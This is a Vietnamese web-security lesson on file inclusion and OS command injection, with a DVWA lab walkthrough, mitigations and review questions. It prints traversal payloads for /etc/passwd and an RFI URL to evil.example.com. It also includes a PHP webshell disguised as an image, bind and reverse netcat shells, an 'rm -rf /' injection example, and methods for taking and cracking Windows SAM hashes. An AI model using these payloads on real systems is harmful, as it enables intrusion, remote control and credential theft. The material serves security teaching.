




# Bài 6: File Inclusion & OS Command Injection

---

## 1. File Inclusion

### 1.1. Giới thiệu

File Inclusion là một lớp lỗ hổng xuất hiện khi ứng dụng web sử dụng **tham số từ request của người dùng** để quyết định file nào sẽ được load hoặc thực thi phía server. Nếu không có cơ chế kiểm tra đầu vào, kẻ tấn công có thể:

- Buộc server hiển thị nội dung của file tùy ý (file hệ thống, file cấu hình...)
- Buộc server thực thi mã độc trong file do kẻ tấn công kiểm soát

Ví dụ điển hình trong PHP, các hàm sau là nguyên nhân trực tiếp:

```php
include();
require();
include_once();
require_once();
```

Khi ứng dụng viết kiểu này mà không kiểm tra `$file`:

```php
$file = $_GET['file'];
include('directory/' . $file);
```

Kẻ tấn công chỉ cần truyền vào URL:

```
http://example.com/?file=../../../../etc/passwd
```

---

### 1.2. Phân loại

=== "Local File Inclusion (LFI)"

    **File nằm trên chính web server.**

    Kẻ tấn công thao túng tham số để trỏ đến các file nội bộ trên hệ thống mà lẽ ra không được phép truy cập.

    **Ví dụ khai thác:**

    ```
    /vulnerable.php?language=../../../../../etc/passwd
    ```

    Kỹ thuật `../` (dot-dot-slash) cho phép leo lên các thư mục cha, còn gọi là **Directory Traversal** hay **Path Traversal**.

    **Các biến thể:**

    ```
    # Dùng ký tự NULL byte để bỏ phần mở rộng file (PHP < 5.3.4)
    /vulnerable.php?language=C:\notes.txt%00

    # Kết hợp với file đã upload lên server
    /vulnerable.php?language=C:\ftp\upload\exploit

    # Trên Linux leo thư mục
    /vulnerable.php?language=../../../../../../etc/passwd%00
    ```

    !!! warning "Tại sao `%00` (NULL byte) lại nguy hiểm?"
        Trong các phiên bản PHP cũ (trước 5.3.4), khi PHP xử lý chuỗi, ký tự NULL `\0` đánh dấu kết thúc chuỗi. Nếu server tự động nối thêm `.php` vào cuối tham số, kẻ tấn công dùng `%00` để "cắt đứt" phần `.php` đó, khiến server include đúng file `.txt` hoặc file không có phần mở rộng.

=== "Remote File Inclusion (RFI)"

    **File nằm bên ngoài web server**, trên một server do kẻ tấn công kiểm soát.

    Đây là dạng nguy hiểm hơn vì file được include có thể chứa **server-side code** (PHP, JSP...), dẫn đến **Remote Code Execution (RCE)** – thực thi lệnh tùy ý từ xa.

    **Ví dụ:**

    ```
    /vulnerable.php?language=http://evil.example.com/webshell.txt?
    ```

    !!! danger "Điều kiện để khai thác RFI trong PHP"
        Trong file `php.ini`, server phải bật:
        ```ini
        allow_url_fopen = On
        allow_url_include = On
        ```
        Các phiên bản PHP hiện đại mặc định tắt `allow_url_include`, do đó RFI khó khai thác hơn LFI trên môi trường hiện đại.

---

### 1.3. File Inclusion trong PHP – Chi tiết

#### Ví dụ code dễ bị tấn công

```php
<?php
if (isset($_GET['language'])) {
    include($_GET['language'] . ".php");
}
?>

<form method="get">
  <select name="language">
    <option value="english">English</option>
    <option value="french">French</option>
  </select>
  <input type="submit">
</form>
```

Ý định ban đầu: người dùng chọn `english` → server include `english.php`. Nhưng vì không kiểm tra, kẻ tấn công có thể truyền bất kỳ đường dẫn nào.

#### Directory Traversal

```
/vulnerable.php?language=../../../../../etc/passwd%00
```

Kỹ thuật này di chuyển ngược lên cây thư mục bằng `../`, rồi trỏ đến file mục tiêu.

#### RFI – Remote File Inclusion

```
http://www.certifiedhacker.com/orders.php?DRINK=http://jasoneval.com/exploit?
```

```php
<?php
$drink = $_GET['DRINK'];
require($drink . ".php");
?>
```

Server sẽ tải file từ `jasoneval.com` về và **thực thi như code PHP** — kẻ tấn công hoàn toàn kiểm soát được nội dung file đó.

---

### 1.4. Giải pháp phòng chống File Inclusion trong PHP

=== "Dùng Switch/Case (whitelist cứng)"

    ```php
    switch ($_GET['language']) {
        case 'english':
            include('english.php');
            break;
        case 'french':
            include('french.php');
            break;
        default:
            include('default.php');
    }
    ```

    Đây là cách an toàn nhất: chỉ những giá trị được liệt kê mới được xử lý.

=== "Kiểm tra whitelist bằng mảng"

    ```php
    $available_languages = array('eng', 'nor', 'ger');
    $language = $_GET['language'];

    if (in_array($language, $available_languages)) {
        include($language . '.php');
    } else {
        die("Invalid language.");
    }
    ```

=== "Giới hạn độ dài tham số"

    ```php
    $language = $_GET['language'];
    if (strlen($language) < 4) {
        include($language . '.php');
    }
    ```

    Đây là biện pháp phụ trợ, không nên dùng một mình vì kẻ tấn công có thể dùng tên file ngắn.

!!! tip "Kiến thức mở rộng – Phòng chống tổng quát"
    - Dùng `realpath()` để chuẩn hóa đường dẫn, rồi kiểm tra xem đường dẫn có nằm trong thư mục cho phép không (`strpos`).
    - Tắt `allow_url_include` trong `php.ini`.
    - Cấu hình `open_basedir` để giới hạn PHP chỉ truy cập file trong một số thư mục nhất định.
    - Sử dụng Web Application Firewall (WAF) để phát hiện các payload chứa `../`, `%00`, `http://`...

---

### 1.5. File Inclusion trong JSP

Tương tự PHP, JSP cũng dễ bị tấn công nếu dùng tham số từ request để include file:

```jsp
<%
    String p = request.getParameter("p");
%>
<%@ include file="<%= "includes/" + p + ".jsp" %>" %>
```

Khai thác:

```
/vulnerable.jsp?p=../../../../var/log/access.log%00
```

---

### 1.6. Directory Traversal – Tổng quan

Directory Traversal (hay Path Traversal) cho phép kẻ tấn công truy cập các file **ngoài thư mục gốc của web server** bằng cách thao túng đường dẫn file.

```
http://www.certifiedhacker.com/process.php?file=../../../../etc/passwd
```



---

### 1.7. File Password trên Linux và Windows

=== "Linux"

    **`/etc/passwd`** – Lưu thông tin tài khoản người dùng (không chứa password thật):

    ```
    smithj:x:561:561:Joe Smith:/home/smithj:/bin/bash
    ```

    Các trường: `username : password_placeholder : UID : GID : comment : home_dir : shell`

    **`/etc/shadow`** – Chứa mật khẩu đã được hash, **chỉ root mới đọc được**:

    ```
    smithj:$p$6mckrOLChF...:10063:0:99999:7:::
    ```

    !!! info "Tại sao LFI đọc `/etc/passwd` vẫn nguy hiểm?"
        Dù `/etc/passwd` không chứa hash password (đã chuyển sang `/etc/shadow`), nó vẫn tiết lộ danh sách user, UID, home directory và shell — thông tin hữu ích để leo thang đặc quyền hoặc brute-force.

=== "Windows"

    - Mật khẩu Windows lưu tại: `C:\Windows\System32\config\SAM`
    - **Không thể đọc trực tiếp khi Windows đang chạy** (bị khóa bởi OS).

    **Cách lấy file SAM:**

    - Dùng công cụ `fgdump` từ console quản trị.
    - Sniff NTLM hash khi xác thực qua mạng (Pass-the-Hash attack).
    - Boot từ live USB để đọc file SAM khi Windows không chạy.

    **Crack file SAM:**

    - **Cain and Abel** – crack offline bằng rainbow table.
    - **John the Ripper** – brute-force / dictionary attack.
    - **Hashcat** – GPU-accelerated cracking (phổ biến hơn hiện nay).

    **Bảo vệ bằng SYSKEY:** Mã hóa thêm một lớp lên file SAM, nhưng kỹ thuật này cũng đã bị bypass trong một số công cụ tấn công nâng cao.

---

## 2. Abusing File Inclusions kết hợp Upload

### 2.1. Mô tả tấn công

Kịch bản: ứng dụng có hai tính năng riêng biệt:

1. **Upload file** (được kiểm tra loại file, ví dụ chỉ cho phép ảnh).
2. **File Inclusion** (dễ bị khai thác LFI).

Kẻ tấn công kết hợp cả hai để **upload shell giả dạng ảnh**, rồi dùng LFI để **thực thi shell đó**.



### 2.2. Thực hành trên DVWA (mức Medium)

**Bước 1:** Tạo file `webshell.php`:

```php
<?php
system($_GET['cmd']);
echo '<form method="get" action="../../hackable/uploads/webshell.php">
    <input type="text" name="cmd"/>
</form>';
?>
```

**Bước 2:** Tạo file `rename.php` để đổi tên file:

```php
<?php
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/webshell.php');
?>
```

**Bước 3:** Đổi tên `webshell.php` → `webshell.jpg`, `rename.php` → `rename.jpg` rồi upload cả hai.

**Bước 4:** Dùng LFI để thực thi `rename.jpg` (thực ra là PHP):

```
?page=../../hackable/uploads/rename.jpg
```

**Bước 5:** Include `webshell.php` vừa được tạo ra:

```
?page=../../hackable/uploads/webshell.php
```

**Bước 6:** Nhập lệnh vào textbox, ví dụ:

```
/sbin/ifconfig
```

### 2.3. Mở rộng – Reverse Shell bằng NetCat

```bash
nc -lp 12345 -e /bin/bash
```

Lệnh này:

- Mở cổng TCP 12345 trên server và lắng nghe kết nối đến.
- Khi có kết nối, gắn `/bin/bash` vào socket → kẻ tấn công từ xa có thể gõ lệnh như đang ở terminal server.

!!! danger "Nguy cơ"
    Đây là kỹ thuật **bind shell**. Kẻ tấn công sau đó kết nối từ máy của mình:
    ```bash
    nc <IP_server> 12345
    ```
    Và có thể tải thêm malware, leo thang đặc quyền (privilege escalation), hoặc làm cầu nối tấn công các hệ thống nội bộ khác.

### 2.4. Kiểm tra và ngăn chặn upload file

```php
// Kiểm tra image header thật sự
$imageInfo = getimagesize($_FILES['upload']['tmp_name']);
if ($imageInfo === false) {
    die("File không phải ảnh hợp lệ.");
}

// Kiểm tra MIME type
$allowedTypes = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($imageInfo['mime'], $allowedTypes)) {
    die("Loại file không được phép.");
}

// Giới hạn kích thước
if ($_FILES['upload']['size'] > 500000) {
    die("File quá lớn.");
}
```

!!! tip "Mở rộng – Defense in Depth cho upload file"
    - Lưu file upload **ngoài webroot** (kẻ tấn công không thể truy cập trực tiếp qua URL).
    - Đổi tên file upload thành tên ngẫu nhiên (UUID), không giữ tên gốc.
    - Dùng `Content-Disposition: attachment` khi serve file, không cho browser tự thực thi.
    - Cấu hình server (Nginx/Apache) để thư mục upload **không thực thi script**.
    - Quét file bằng antivirus/antimalware trước khi lưu.

---

## 3. OS Command Injection

### 3.1. Giới thiệu

OS Command Injection (Shell Injection) là lỗ hổng cho phép kẻ tấn công **thực thi lệnh hệ điều hành tùy ý** trên máy chủ thông qua lỗ hổng của ứng dụng web.

**Nguyên nhân:** Ứng dụng truyền **trực tiếp** dữ liệu từ người dùng vào system shell mà không kiểm tra, dẫn đến kẻ tấn công có thể chèn thêm lệnh.

!!! warning "Lưu ý quan trọng"
    Lệnh được thực thi với **quyền của tiến trình web server** (thường là `www-data` trên Linux). Nếu web server chạy với quyền root (cấu hình sai), kẻ tấn công có toàn quyền hệ thống ngay lập tức.

---

### 3.2. Ví dụ trong PHP

```php
<?php
print("Please specify the name of the file to delete");
print("<p>");
$file = $_GET['filename'];
system("rm $file");
?>
```

Khi kẻ tấn công truyền vào:

```
http://127.0.0.1/delete.php?filename=bob.txt; id
```

Lệnh thực tế server chạy sẽ là:

```bash
rm bob.txt; id
```

Kết quả trả về:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Dấu `;` trong shell Unix cho phép nối nhiều lệnh tuần tự. Ngoài ra còn có:

| Ký tự | Ý nghĩa |
|---|---|
| `;` | Chạy lệnh tiếp theo bất kể lệnh trước thành công hay thất bại |
| `&&` | Chạy lệnh tiếp theo chỉ khi lệnh trước thành công |
| `\|\|` | Chạy lệnh tiếp theo chỉ khi lệnh trước thất bại |
| `\|` | Pipe — đưa output lệnh trước làm input lệnh sau |
| `` ` `` hoặc `$()` | Command substitution — nhúng output vào chuỗi |

---

### 3.3. Ví dụ trong C

```c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv) {
    char cat[] = "cat ";
    char *command;
    size_t commandLength;

    commandLength = strlen(cat) + strlen(argv[1]) + 1;
    command = (char *)malloc(commandLength);
    strncpy(command, cat, commandLength);
    strncat(command, argv[1], commandLength - strlen(cat));

    system(command);
    return 0;
}
```

Nếu người dùng truyền vào `argv[1]` là `file.txt; rm -rf /`, toàn bộ hệ thống có thể bị xóa.

---

### 3.4. Thực hành trên DVWA

**Bước 1:** Vào mục **Command Execution** trong DVWA, thử ping một IP bình thường.

**Bước 2:** Inject lệnh đơn giản để kiểm tra:

```
127.0.0.1; uname -a
```

Nếu thấy output của `uname` → lỗ hổng tồn tại.

**Bước 3:** Kiểm tra NetCat có sẵn không:

```
; ls /bin/nc*
```

!!! info "Các phiên bản NetCat"
    - **nc.openbsd**: phiên bản mặc định trên nhiều distro, **không hỗ trợ** tùy chọn `-e` (execute).
    - **nc.traditional**: phiên bản cổ điển, **hỗ trợ** `-e` để thực thi lệnh khi có kết nối.

**Bước 4:** Trên máy Kali (máy tấn công), mở port lắng nghe:

```bash
nc -lp 1691 -v
```

**Bước 5:** Trên trình duyệt, inject lệnh để server kết nối ngược về máy Kali:

```
; nc.traditional -e /bin/bash <IP_Kali> 1691 &
```

Đây là kỹ thuật **reverse shell**: server chủ động kết nối ra ngoài (bypass firewall dễ hơn bind shell).

**Bước 6:** Quay lại terminal Kali, thực hiện lệnh:

```bash
whoami
pwd
ls
cat /etc/passwd
```



Hay



---

### 3.5. Phòng chống OS Command Injection

=== "PHP"

    ```php
    // Dùng escapeshellarg() để escape toàn bộ argument
    $filename = escapeshellarg($_GET['filename']);
    system("rm " . $filename);

    // Hoặc escapeshellcmd() để escape toàn bộ lệnh
    $cmd = escapeshellcmd("rm " . $_GET['filename']);
    system($cmd);
    ```

    !!! warning
        `escapeshellcmd()` vẫn có thể bị bypass trong một số trường hợp. Ưu tiên dùng `escapeshellarg()` và whitelist đầu vào.

=== "Nguyên tắc chung"

    - **Không bao giờ** truyền trực tiếp input người dùng vào `system()`, `exec()`, `shell_exec()`, `popen()`, `passthru()`.
    - Dùng **whitelist**: chỉ chấp nhận các ký tự/giá trị cụ thể (ví dụ: chỉ cho phép IP hợp lệ khi ping).
    - Sử dụng **API cấp cao** thay vì gọi shell — ví dụ dùng thư viện `ping` trong Python thay vì `os.system("ping ...")`.
    - Chạy web server với **quyền tối thiểu** (principle of least privilege).
    - Bật **SELinux / AppArmor** để giới hạn những gì tiến trình web server được làm.

---

## 4. Câu hỏi ôn tập

??? question "1. Sự khác biệt giữa LFI và RFI là gì? Cái nào nguy hiểm hơn và tại sao?"
    - **LFI (Local File Inclusion):** File được include nằm trên chính server. Kẻ tấn công đọc được file hệ thống (`/etc/passwd`, source code, config...) và nếu kết hợp với upload có thể chạy code.
    - **RFI (Remote File Inclusion):** File được include từ server bên ngoài. Nguy hiểm hơn vì kẻ tấn công **hoàn toàn kiểm soát nội dung file** và có thể nhúng bất kỳ PHP code nào → Remote Code Execution ngay lập tức, không cần bước upload trung gian.

??? question "2. Tại sao kỹ thuật NULL byte (`%00`) được dùng trong File Inclusion?"
    Trong PHP phiên bản cũ (< 5.3.4), chuỗi C-string kết thúc tại ký tự NULL (`\0`). Nếu server tự nối thêm `.php` vào cuối tham số, kẻ tấn công thêm `%00` để "cắt" phần `.php` đó, khiến server include đúng file `.txt` hoặc file không có phần mở rộng. PHP hiện đại đã vá lỗi này.

??? question "3. Tại sao tấn công OS Command Injection lại nguy hiểm hơn SQL Injection trong một số trường hợp?"
    SQL Injection thường giới hạn trong phạm vi database. OS Command Injection cho phép thực thi **lệnh hệ điều hành** trực tiếp, nghĩa là kẻ tấn công có thể: đọc/ghi bất kỳ file nào, tạo reverse shell, cài backdoor, leo thang đặc quyền, tấn công các hệ thống khác trong mạng nội bộ — toàn bộ hạ tầng bị ảnh hưởng, không chỉ dữ liệu.

??? question "4. Tại sao cần file `rename.php` trong kịch bản khai thác LFI + upload?"
    Vì trang upload chỉ chấp nhận file ảnh (`.jpg`, `.png`...), kẻ tấn công không thể upload `.php` trực tiếp. File `rename.php` (được upload dưới dạng `.jpg`) dùng hàm `system('mv ...')` để đổi tên file shell từ `.jpg` sang `.php`. Sau đó LFI được dùng để thực thi file `rename.jpg` — server hiểu đây là PHP và chạy lệnh `mv`, tạo ra `webshell.php` thực sự có thể thực thi.

??? question "5. Giải thích sự khác biệt giữa bind shell và reverse shell."
    - **Bind shell:** Server mở một port và lắng nghe. Kẻ tấn công kết nối vào port đó. Dễ bị chặn bởi firewall (firewall chặn port lạ mở trên server).
    - **Reverse shell:** Server chủ động kết nối ra ngoài đến máy kẻ tấn công. Khó bị chặn hơn vì traffic đi ra ngoài thường ít bị kiểm soát hơn traffic đi vào. Đây là lý do `nc.traditional -e /bin/bash <Kali_IP> 1691` được ưa dùng trong thực tế tấn công.

---

## 5. Tài liệu tham khảo

- [OWASP – File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)
- [OWASP – OS Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [PortSwigger – Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [PayloadsAllTheThings – File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [HackTricks – LFI to RCE](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
